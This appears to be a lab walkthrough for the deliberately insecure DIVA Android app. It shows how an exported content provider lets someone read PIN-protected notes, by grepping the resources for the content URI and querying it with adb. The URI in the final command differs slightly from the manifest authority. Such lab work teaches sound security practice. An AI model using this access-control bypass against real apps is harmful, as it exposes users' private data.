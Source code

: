 ## Access Control Part 3

This is a activity acts as a private notes application which stores tge following notes. This application is protected by a 

pin set by the user.


So how to get the notes without knowing the pin of the user?

#### The vulnerability

Based on the source code below, if the user pin is correct, it sends a query to a content provider to retrieve the notes of 
the person 

        if (userpin.equals(pin)) {
            // Display the private notes
            ListView  lview = (ListView) findViewById(R.id.aci3nlistView);
            Cursor cr = getContentResolver().query(NotesProvider.CONTENT_URI, new String[] {"_id", "title", "note"}, null, null, null);
            String[] columns = {NotesProvider.C_TITLE, NotesProvider.C_NOTE};
            
            
But its not stated what the uri is being queried. Where can the uri be found then?


#### The exploit


Lets check the manifest file of the app.

        <provider
            android:name=".NotesProvider"
            android:authorities="jakhar.aseem.diva.provider.notesprovider"
            android:enabled="true"
            android:exported="true" >
        </provider>

Not really what we wanted. Lets try the values folder within the resources folder and see if the content uri is being hardcoded
inside that folder

navigate to the values folder then type:

        cat * | grep content://


Yayyyyy we got it!

Thats probably the content uri of the notes!

Lets try querying that uri

#### The exploit

To query the uri, type this command in the terminal


        adb shell content query --uri content://jakhar.aseem.diva.provider.notesproviders/notes
        


Got it!
